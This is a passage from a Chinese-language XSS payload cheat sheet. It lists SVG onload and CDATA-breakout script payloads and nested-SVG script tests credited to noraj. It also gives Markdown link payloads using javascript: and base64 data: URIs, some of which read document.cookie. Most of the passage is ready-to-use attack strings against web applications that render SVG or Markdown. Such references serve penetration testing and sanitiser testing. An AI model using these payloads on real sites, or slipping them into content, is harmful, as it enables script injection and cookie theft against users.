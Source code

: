 #### 简短的SVG载荷

```javascript
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>

<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```

### 在SVG中嵌套XSS

在SVG中包含远程SVG图像可行，但不会触发嵌套在远程SVG中的XSS。作者：noraj。

SVG 1.x (xlink:href)

```xml
<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="http://127.0.0.1:9999/red_lightning_xss_full.svg" height="200" width="200"/>
</svg>
```

在SVG中包含远程SVG片段可行，但不会触发嵌套在远程SVG元素中的XSS，因为在现代浏览器中不可能在多边形/矩形等元素上添加易受攻击的属性。作者：noraj。

SVG 1.x (xlink:href)

```xml
<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <use xlink:href="http://127.0.0.1:9999/red_lightning_xss_full.svg#lightning"/>
</svg>
```

然而，在SVG文档中包含SVG标签可行，并允许从子SVG执行XSS。代号：法国国旗。作者：noraj。

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <svg x="10">
    <rect x="10" y="10" height="100" width="100" style="fill: #002654"/>
    <script type="text/javascript">alert('sub-svg 1');</script>
  </svg>
  <svg x="200">
    <rect x="10" y="10" height="100" width="100" style="fill: #ED2939"/>
    <script type="text/javascript">alert('sub-svg 2');</script>
  </svg>
</svg>
```

### Markdown中的XSS

```csharp
[a](javascript:prompt(document.cookie))
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)
```
